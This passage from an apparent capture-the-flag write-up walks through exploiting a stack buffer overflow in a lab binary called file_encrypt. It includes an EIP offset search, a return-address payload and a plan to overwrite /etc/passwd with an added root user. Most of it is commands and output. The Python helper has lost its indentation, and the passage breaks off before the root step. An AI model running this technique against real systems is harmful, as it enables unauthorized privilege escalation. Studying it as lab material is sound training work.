This is the code 1804289383. Enter the Pin: -202976456
name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Thanks for checking. You can give your feedback for improvements at developer@overflow.htb

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

The next step is to find the offset for the EIP register. If we’re able to control the values placed in the register, we can take control of the programs operational flow and redirect it to our advantage.
```bash
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```

Using pattern_create, we generated a string of 300 characters. We’ll input it using gdb and then extract the EIP value.
```bash
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/caue/htb/overflow/reverse/file_encrypt 
This is the code 1804289383. Enter the Pin: -202976456
name: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
Thanks for checking. You can give your feedback for improvements at developer@overflow.htb

Program received signal SIGSEGV, Segmentation fault.
0x35624134 in ?? ()
```

EIP was overwritten with `0x35624134`. 
Using `msf_pattern_offset` we can identify the overflow offset at 44.
```bash
$ /usr/bin/msf-pattern_offset -l 300 -q 0x35624134
[*] Exact match at offset 44
```

Now that we know the offset, we’re going to attempt to route the program execution to the encrypt function. To get the address of the function, we run the program in gdb, issue a ctrl-c and dissassemble the function.
```
(gdb) r                                                                                                                                                
The program being debugged has been started already.                                                                                                   
Start it from the beginning? (y or n) y                                                                                                                
Starting program: /home/caue/htb/overflow/reverse/file_encrypt                                                                                         
This is the code 1804289383. Enter the Pin: -202976456                                                                                                 
name: ^C                                                                                                                                               
Program received signal SIGINT, Interrupt.                                                                                                             
0xf7fc9559 in __kernel_vsyscall ()                                                                                                                     
(gdb) disas encrypt                                                                                                                                    
Dump of assembler code for function encrypt:                                                                                                           
   0x5655585b <+0>:     push   %ebp                                                                                                                    
   0x5655585c <+1>:     mov    %esp,%ebp                                                                                                               
   0x5655585e <+3>:     push   %ebx                                                                                                                    
   0x5655585f <+4>:     sub    $0x94,%esp                                                                                                              
   0x56555865 <+10>:    call   0x56555720 <__x86.get_pc_thunk.bx>                                                                                      
   0x5655586a <+15>:    add    $0x2736,%ebx                                                                                                            
   0x56555870 <+21>:    movl   $0x0,-0x80(%ebp)                                                                                                        
   0x56555877 <+28>:    movl   $0x0,-0x7c(%ebp)                                                                                                        
   0x5655587e <+35>:    movl   $0x0,-0x78(%ebp)                                                                                                        
   0x56555885 <+42>:    movl   $0x0,-0x74(%ebp)                                                                                                        
   0x5655588c <+49>:    movl   $0x0,-0x70(%ebp)
   0x56555893 <+56>:    movl   $0x0,-0x94(%ebp)
```

The function starts at `0x5655585b`.
Now we can add that to our buffer overflow to overwrite EIP and force us to the encrypt function.
```bash
$ python -c "print('\x41' * 44 + '\x5b\x58\x55\x56')"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[XUV

(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/caue/htb/overflow/reverse/file_encrypt 
This is the code 1804289383. Enter the Pin: -202976456
name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[XUV
Thanks for checking. You can give your feedback for improvements at developer@overflow.htb
Enter Input File:
```

Yes! It is working, and now is asking for the "Input File".
Going back into Ghidra, we take a closer look at the encrypt function. The program’s purpose is to take a file and encrypt it in a new location. It does this by reading the file and XOR'ing it with `0x9b`. 

Our plan is to create a copy of `/etc/passwd` and add a new root user. We’ll then use the program to encrypt and overwrite the system `/etc/passwd` with our modified copy.

We will manually encrypt our modified passwd file first prior to passing it through the program. An encrypted value XOR’ed by the same key (0x9b) should give us the original cleartext `/etc/passwd`. In other words, the encryption program will actually decrypt our passwd file when it overwrites `/etc/passwd`.

Create the new hash for user `caue` with password `pass123`:
```bash
$ openssl passwd -1 -salt caue pass123
$1$caue$UbuBXypuA7ZQh9kxbERnQ/
```

Make a copy of `/etc/passwd` and add our user with root privileges:
```
tester@overflow:~$ cp /etc/passwd /tmp/passwd
tester@overflow:~$ echo 'caue:$1$caue$UbuBXypuA7ZQh9kxbERnQ/:0:0:root:/root:/bin/bash' >> /tmp/passwd

```

Next we encrypt our modified `/tmp/passwd` file. To do this, I wrote a simple python script:
```python encrypt_file.py
#!/usr/bin/python3

source = open('/tmp/passwd', 'rb').read()  
dest = open('/tmp/passwd2', 'wb')

for i in source:  
dest.write(bytes([i ^ 0x9b]))
```

Running the script give us a file called `passwd2` which is encrypted:
```bash
tester@overflow:/tmp$ python3 encrypt_file.py
```

Now we’re ready to run the `file_encrypt` program with our overflow.

## Root

